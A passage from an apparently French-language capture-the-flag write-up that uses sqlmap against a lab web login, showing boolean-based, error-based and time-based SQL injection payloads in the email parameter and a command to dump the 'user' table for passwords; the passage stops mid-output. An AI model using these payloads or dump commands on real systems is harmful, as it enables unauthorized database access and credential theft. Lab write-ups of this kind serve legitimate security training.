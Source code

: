 ```bash

[14:55:46] [INFO] resuming back-end DBMS 'mysql' 
[14:55:46] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: email (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: email=test' AND 9749=(SELECT (CASE WHEN (9749=9749) THEN 9749 ELSE (SELECT 8209 UNION SELECT 3577) END))-- irFf&password=my_password

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: email=test' OR (SELECT 2937 FROM(SELECT COUNT(*),CONCAT(0x717a786a71,(SELECT (ELT(2937=2937,1))),0x716b707071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- jUhZ&password=my_password

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=test' AND (SELECT 3712 FROM (SELECT(SLEEP(5)))BwqO)-- usqD&password=my_password
---
[14:55:46] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[14:55:46] [INFO] fetching tables for database: 'ai'
[14:55:47] [INFO] retrieved: 'user'
Database: ai
[1 table]
+------+
| user |
+------+

[14:55:47] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.111.207'
[14:55:47] [WARNING] you haven't updated sqlmap for more than 2031 days!!!

[*] ending @ 14:55:47 /2025-10-25/
```

**Réponse :** `user`

**What is the password of the email test@chatai.com?**

Pour le trouver on a besoin de préciser a SQLMap d'utiliser le `user` qu'on a trouvé juste avant comme ceci : `-D ai -T user --dump` et en oubliant pas le `--level=5` comme demandé.

```bash
root@ip-10-10-90-184:~# sqlmap -u "http://10.10.111.207/ai/includes/user_login?email=test&password=my_password" -D ai -T user --dump --level=5
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.4.4#stable}
|_ -| . [.]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 15:02:16 /2025-10-25/

[15:02:16] [INFO] resuming back-end DBMS 'mysql' 
[15:02:16] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: email (GET)
```